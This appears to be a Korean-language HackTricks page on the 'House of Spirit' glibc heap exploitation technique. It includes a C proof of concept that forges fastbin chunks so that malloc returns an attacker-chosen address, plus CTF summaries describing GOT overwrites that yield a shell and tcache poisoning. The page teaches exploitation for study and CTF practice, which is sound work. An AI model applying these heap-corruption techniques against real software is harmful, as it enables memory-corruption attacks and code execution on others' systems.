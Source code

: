 # House of Spirit

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 트릭을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하세요.

</details>
{% endhint %}

## Basic Information

### Code

<details>

<summary>House of Spirit</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
size_t prev_size;
size_t size;
struct fast_chunk *fd;
struct fast_chunk *bk;
char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
void *ptr, *victim;

ptr = malloc(0x30);

printf("Original alloc address: %p\n", ptr);
printf("Main fake chunk:%p\n", &fake_chunks[0]);
printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);

// Attacker overwrites a pointer that is about to be 'freed'
// Point to .fd as it's the start of the content of the chunk
ptr = (void *)&fake_chunks[0].fd;

free(ptr);

victim = malloc(0x30);
printf("Victim: %p\n", victim);

return 0;
}
```
</details>

### 목표

* tcache / fast bin에 주소를 추가하여 나중에 할당할 수 있도록 함

### 요구 사항

* 이 공격은 공격자가 올바른 크기 값을 나타내는 몇 개의 가짜 fast 청크를 만들고, 첫 번째 가짜 청크를 해제하여 해당 청크가 bin에 들어가도록 해야 함

### 공격

* 보안 검사를 우회하는 가짜 청크 생성: 기본적으로 올바른 위치에 올바른 크기를 나타내는 2개의 가짜 청크가 필요함
* 첫 번째 가짜 청크를 해제하여 빠른 또는 tcache bin에 들어가도록 하고, 그 주소를 덮어쓰도록 할당함

**[guyinatuxedo](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html)**의 코드는 이 공격을 이해하는 데 좋음. 코드에서 이 스키마는 이를 잘 요약함:
```c
/*
this will be the structure of our two fake chunks:
assuming that you compiled it for x64

+-------+---------------------+------+
| 0x00: | Chunk # 0 prev size | 0x00 |
+-------+---------------------+------+
| 0x08: | Chunk # 0 size      | 0x60 |
+-------+---------------------+------+
| 0x10: | Chunk # 0 content   | 0x00 |
+-------+---------------------+------+
| 0x60: | Chunk # 1 prev size | 0x00 |
+-------+---------------------+------+
| 0x68: | Chunk # 1 size      | 0x40 |
+-------+---------------------+------+
| 0x70: | Chunk # 1 content   | 0x00 |
+-------+---------------------+------+

for what we are doing the prev size values don't matter too much
the important thing is the size values of the heap headers for our fake chunks
*/
```
{% hint style="info" %}
두 번째 청크를 생성하여 일부 상태 확인을 우회해야 합니다.
{% endhint %}

## 예시

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
* **Libc infoleak**: 오버플로우를 통해 CTF의 read 동작을 통해 libc 주소를 노출시킬 수 있습니다.
* **House of Spirit**: "소총" 수를 세는 카운터를 남용하여 첫 번째 가짜 청크의 가짜 크기를 생성할 수 있고, "메시지"를 남용하여 두 번째 청크의 크기를 가짜로 만들 수 있습니다. 마지막으로 오버플로우를 남용하여 해제될 포인터를 변경하여 첫 번째 가짜 청크를 해제합니다. 그런 다음 할당하고 그 안에 "메시지"가 저장된 주소가 있습니다. 그런 다음 이를 `scanf` 진입점을 가리키도록 만들어 GOT 테이블 내부를 덮어쓸 수 있습니다.\
다음에 `scanf`가 호출될 때 입력 `"/bin/sh"`를 보내고 셸을 획들할 수 있습니다.

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
* **Glibc leak**: 초기화되지 않은 스택 버퍼.
* **House of Spirit**: 힙 포인터의 전역 배열의 첫 번째 인덱스를 수정할 수 있습니다. 단일 바이트 수정으로 유효한 청크 내부의 가짜 청크에서 `free`를 사용하여 다시 할당한 후에 겹치는 청크 상황을 얻을 수 있습니다. 이를 통해 간단한 Tcache 독성 공격을 사용하여 임의 쓰기 원시를 얻을 수 있습니다.

## 참고 자료

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
